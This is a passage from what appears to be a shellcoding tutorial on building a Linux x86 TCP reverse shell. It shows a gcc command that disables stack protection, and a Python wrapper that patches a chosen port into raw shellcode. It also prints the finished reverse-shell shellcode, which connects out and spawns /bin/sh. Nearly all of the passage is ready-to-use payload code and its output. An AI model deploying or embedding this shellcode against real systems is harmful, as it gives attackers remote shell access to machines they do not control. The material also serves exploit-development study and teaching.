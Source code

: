 And compile.
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

### Python port wrapper ###

<p style="text-align: justify;">A very nice improvement is to write a wrapper that will allow us to quickly change the port, where TCP Reverse Shell should run. The port will always be a maximum of two bytes, regardless of whether it is port 1 ("\x01") or 65535 ("\xff\xff"). Therefore, we can use a simple trick to replace port 4444, indicated by us in NASM ("\x11\x5c"), with the port indicated as argument.</p>

```python
#/usr/bin/python3
import sys

# We want to produce a shellcode, which has included port specified by us.
# We are replacing \x11\x5c then, which was the original port putted inside (4444)
shellcode = r'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80'
port = int(sys.argv[1])

print("\nPort specified:  ",port,'\n',30*'-','\n')
hexed = hex(port).replace('0x','')

if len(hexed) == 1:
	fin = ('\\x0'+hexed)
elif len(hexed) == 2:
	fin = ('\\x'+hexed)
elif len(hexed) == 3:
	fin = ('\\x0'+hexed[0]+'\\x'+hexed[1:3])
elif len(hexed) ==4:
	fin = ('\\x'+hexed[:2]+'\\x'+hexed[2:4])

print("Port in hex:     ",fin,'\n',30*'-','\n')
final = shellcode.replace("\\x11\\x5c",fin)
print("Final shellcode:  \""+str(final)+'"','\n')
```
Usage:
```sh
$ python3 wrapper.py 9090

Port specified:   9090
 ------------------------------

Port in hex:      \x23\x82
 ------------------------------

Final shellcode:  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x23\x82\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```
